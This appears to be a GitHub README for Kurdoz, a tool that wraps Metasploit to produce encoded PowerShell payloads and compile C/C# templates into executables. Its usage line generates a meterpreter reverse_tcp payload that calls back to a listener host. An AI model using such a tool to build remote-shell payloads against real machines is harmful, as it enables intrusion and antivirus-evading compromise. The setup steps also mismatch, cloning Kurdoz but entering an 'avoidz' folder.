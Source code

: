 Kurdoz v 1.0

Author: ZANYAR MATRIX [ www.ZanyarMatrix.com ]
Legal Disclamer:

The author does not hold any responsibility for the bad use of this tool,
remember this is only for educational purpose.
Description:

This tool Generate encoded powershell with metasploit payloads,convert C & C# Templates to EXE's 
Screenshot:

pic1

pic2




Dependencies :

1 - metasploit-framework
2 - xterm
3 - MinGW32
4 - Monodevelop
Download/Config/Usage:

1º - Download the tool from github
     git clone https://github.com/ZanyarMatrix/Kurdoz.git

2º - Set setup script execution permitions
     cd avoidz
     chmod +x setup.sh

3°- Run setup script
     ./setup.sh == to check dependecies

4°- Run Kurdoz tool == example
 ./Kurdoz.rb == help command
 ./Kurdoz.rb -h 192.168.1.3 -p 676 -m windows/meterpreter/reverse_tcp -f temp1 == generate
